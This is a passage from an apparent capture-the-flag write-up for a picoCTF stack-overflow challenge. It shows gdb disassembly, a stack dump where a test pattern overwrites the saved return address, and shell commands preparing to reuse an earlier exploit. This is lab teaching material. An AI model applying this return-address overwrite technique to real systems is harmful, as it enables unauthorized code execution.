 ```
   0x000000000040084d <+0>:     push   %rbp
   0x000000000040084e <+1>:     mov    %rsp,%rbp
   0x0000000000400851 <+4>:     sub    $0x50,%rsp
   0x0000000000400855 <+8>:     lea    0x16c(%rip),%rsi        # 0x4009c8
   0x000000000040085c <+15>:    lea    0x167(%rip),%rdi        # 0x4009ca
   0x0000000000400863 <+22>:    callq  0x400660 <fopen@plt>
   0x0000000000400868 <+27>:    mov    %rax,-0x8(%rbp)
   0x000000000040086c <+31>:    cmpq   $0x0,-0x8(%rbp)
   0x0000000000400871 <+36>:    jne    0x400889 <flag+60>
   0x0000000000400873 <+38>:    lea    0x15e(%rip),%rdi        # 0x4009d8
   0x000000000040087a <+45>:    callq  0x4005f0 <puts@plt>
   0x000000000040087f <+50>:    mov    $0x0,%edi
   0x0000000000400884 <+55>:    callq  0x400670 <exit@plt>
   0x0000000000400889 <+60>:    mov    -0x8(%rbp),%rdx
   0x000000000040088d <+64>:    lea    -0x50(%rbp),%rax
   0x0000000000400891 <+68>:    mov    $0x40,%esi
   0x0000000000400896 <+73>:    mov    %rax,%rdi
   0x0000000000400899 <+76>:    callq  0x400620 <fgets@plt>
   0x000000000040089e <+81>:    lea    -0x50(%rbp),%rax
   0x00000000004008a2 <+85>:    mov    %rax,%rdi
   0x00000000004008a5 <+88>:    mov    $0x0,%eax
   0x00000000004008aa <+93>:    callq  0x400610 <printf@plt>
   0x00000000004008af <+98>:    nop
   0x00000000004008b0 <+99>:    leaveq 
   0x00000000004008b1 <+100>:   retq   
End of assembler dump.
(gdb) info frame
Stack level 0, frame at 0x7fff306a9468:
 rip = 0x4008cd in vuln; saved rip = 0x4545454544444444
 called by frame at 0x7fff306a9478
 Arglist at 0x4343434342424242, args: 
 Locals at 0x4343434342424242, Previous frame's sp is 0x7fff306a9470
 Saved registers:
  rip at 0x7fff306a9468
(gdb) x/10x $sp
0x7fff306a9468: 0x44444444      0x45454545      0x46464646      0x47474747
0x7fff306a9478: 0x48484848      0x49494949      0x306a9500      0x00007fff
0x7fff306a9488: 0x00000000      0x000077b7
(gdb) x/g $sp
0x7fff306a9468: 0x4545454544444444
```

Seems like the return address is stored at the `DDDDEEEE`

This is really similar to the NewOverFlow-1 at this point, let's just reuse the code with a few tweaks. But first let's copy it to our home directory in case of any alignment issues.

```bash
samson@pico-2019-shell1:/problems/newoverflow-2_6$ pushd . && cp vuln ~ && cd ~ && ls -al && cat flag.txt
/problems/newoverflow-2_6 /problems/newoverflow-2_6
total 1164
drwxrwx--T     5 root   samson   4096 Jan 14 03:22 .
drwxr-xr-x 28449 root   root   737280 Jan 14 03:00 ..
-rw-rw----     1 root   samson  13000 Jan 14 03:21 .bash_history
-rw-r--r--     1 samson samson    220 Apr  4  2018 .bash_logout
-rwxr-xr-x     1 root   samson   3689 Dec 27 01:44 .bashrc
drwx------     2 samson samson   4096 Dec 27 01:45 .cache
drwxr-x---     3 samson samson   4096 Dec 28 21:36 .local
-rwxr-xr-x     1 root   samson    807 Apr  4  2018 .profile
drwxr-x---     3 samson samson   4096 Dec 28 22:22 .pwntools-cache
-rw-------     1 samson samson   1428 Jan  6 06:41 .viminfo
-rw-------     1 samson samson 385024 Jan  9 05:21 core
-rw-r-----     1 samson samson     28 Jan  9 05:20 flag.txt
```